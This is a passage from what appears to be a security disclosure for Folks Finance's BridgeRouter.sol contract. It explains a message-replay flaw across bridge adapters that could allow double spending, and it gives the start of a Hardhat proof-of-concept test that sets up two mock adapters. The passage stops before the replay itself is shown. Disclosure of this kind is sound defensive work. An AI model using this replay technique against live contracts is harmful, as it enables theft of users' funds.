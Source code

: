 ## Impact Details
The incorrect implementation allows attackers to replay the same message across different adapters. This can lead to various attacks such as double spending or triggering unintended actions multiple times. This vulnerability poses a significant risk to the protocol's integrity and could lead to financial losses or other malicious activities.

## References
BridgeRouter.sol:
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/bridge/BridgeRouter.sol#L94

        
## Proof of concept
## Proof of Concept
Add the following codes to the test file `test\bridge\BridgeRouter.test.ts` to demonstrate the vulnerability:


```javascript
  async function add2AdapterFixture() {
    const { admin, messager, unusedUsers, bridgeRouter, bridgeRouterAddress } =
      await loadFixture(deployBridgeRouterFixture);

    // deploy and add adapter
    const adapter = await new MockAdapter__factory(admin).deploy(bridgeRouterAddress);
    const adapter2 = await new MockAdapter__factory(admin).deploy(bridgeRouterAddress);
    const adapterId = 0;
    const adapterId2 = 1;
    const adapterAddress = await adapter.getAddress();
    const adapterAddress2 = await adapter2.getAddress();
    await bridgeRouter.connect(admin).addAdapter(adapterId, adapterAddress);
    await bridgeRouter.connect(admin).addAdapter(adapterId2, adapterAddress2);

    return {
      admin,
      messager,
      unusedUsers,
      bridgeRouter,
      bridgeRouterAddress,
      adapter,
      adapter2,
      adapterId,
      adapterId2,
      adapterAddress,
    };
  }

```
```javascript
  async function deployBridgeMessenger2AdapterFixture() {
    const { admin, messager, unusedUsers, bridgeRouter, bridgeRouterAddress, adapter,adapter2, adapterId,adapterId2, adapterAddress } =
      await loadFixture(add2AdapterFixture);

    // deploy messenger and sender
    const bridgeMessenger = await new BridgeMessengerReceiver__factory(admin).deploy(bridgeRouter);

    // common params
    const bridgeMessengerAddress = await bridgeMessenger.getAddress();

    return {
      admin,
```
